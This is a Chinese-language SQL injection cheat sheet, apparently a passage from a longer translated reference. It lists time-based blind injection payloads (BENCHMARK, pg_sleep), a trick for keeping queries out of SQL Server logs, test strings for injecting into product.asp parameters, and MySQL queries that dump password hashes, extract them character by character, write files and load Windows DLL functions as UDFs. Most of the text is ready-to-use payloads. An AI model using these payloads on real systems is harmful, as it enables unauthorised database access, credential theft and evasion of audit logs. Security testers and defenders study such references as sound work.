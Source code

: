 一般来说都不太喜欢用这个来做MySQL延时。小心点用因为这会极快地消耗服务器资源。

```
BENCHMARK(howmanytimes, do this)

```

#### 实例

*   俺是root吗？爽！`IF EXISTS (SELECT * FROM users WHERE username = 'root') BENCHMARK(1000000000,MD5(1))`
    
*   判断表是否存在`IF (SELECT * FROM login) BENCHMARK(1000000,MD5(1))`
    

#### pg_sleep(seconds)(P)

睡眠指定秒数。

*   `SELECT pg_sleep(10);`睡个十秒

### 掩盖痕迹

#### -sp_password log bypass(S)

出于安全原因，`SQL Server`不会把含有这一选项的查询日志记录进日志中(!)。所以如果你在查询中添加了这一选项，你的查询就不会出现在数据库日志中，当然，服务器日志还是会有的，所以如果可以的话你可以尝试使用POST方法。

### 0x02 注入测试

这些测试既简单又清晰，适用于盲注和悄悄地搞。

1.  `product.asp?id=4 (SMO)`
    
    1.  `product.asp?id=5-1`
    2.  `product.asp?id=4 OR 1=1`
2.  `product.asp?name=Book`
    
    1.  `product.asp?name=Bo’%2b’ok`
    2.  `product.asp?name=Bo’ || ’ok (OM)`
    3.  `product.asp?name=Book’ OR ‘x’=’x`

### 0x03 一些其他的MySQL笔记

*   子查询只能在MySQL4.1+使用
*   用户
    *   `SELECT User,Password FROM mysql.user;`
*   `SELECT 1,1 UNION SELECT IF(SUBSTRING(Password,1,1)='2',BENCHMARK(100000,SHA1(1)),0) User,Password FROM mysql.user WHERE User = ‘root’;`
*   `SELECT ... INTO DUMPFILE`
    *   把查询写入一个**新文件**中(不能修改已有文件)
*   UDF功能
    *   `create function LockWorkStation returns integer soname 'user32';`
    *   `select LockWorkStation();`
    *   `create function ExitProcess returns integer soname 'kernel32';`
    *   `select exitprocess();`
*   `SELECT USER();`
*   `SELECT password,USER() FROM mysql.user;`
*   admin密码哈希的第一位
    
